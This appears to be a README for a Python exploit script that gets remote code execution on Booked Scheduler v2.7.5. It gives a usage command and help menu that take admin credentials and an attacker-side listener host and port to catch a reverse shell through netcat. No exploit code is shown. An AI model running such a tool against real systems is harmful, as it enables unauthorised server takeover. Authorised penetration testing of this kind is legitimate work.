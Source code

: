 # bookedScheduler_v2.7.5_RCE
Automatic exploitation script written in python 3 to exploit "Book Scheduler v2.7.5"

<hr>

#### 1. Basic Usage: 
```txt
$ python3 booked_sheduler.py --url http://127.0.0.1 -u <admin> -p <adminpass> -P <pentesterPort> -H <pentesterIP>
```

#### 2. Help Menu:
```txt
usage: booked_scheduler.py [-h] [--url URL] [-u USER] [-p PASSWORD] [-P LPORT] [-H LHOST]

--- Booked Scheduler v2.7.5 ---

optional arguments:
  -h, --help            show this help message and exit
  --url URL             url (i.e http://192.168.167.64/booked/Web)
  -u USER, --user USER  ADMIN user
  -p PASSWORD, --password PASSWORD
                        ADMIN password
  -P LPORT, --lport LPORT
                        Netcat's port to catch reverse shell
  -H LHOST, --lhost LHOST
                        Netcat's host to catch reverse shell
```

#### 3. Example Usage

<br>

![](example.gif)
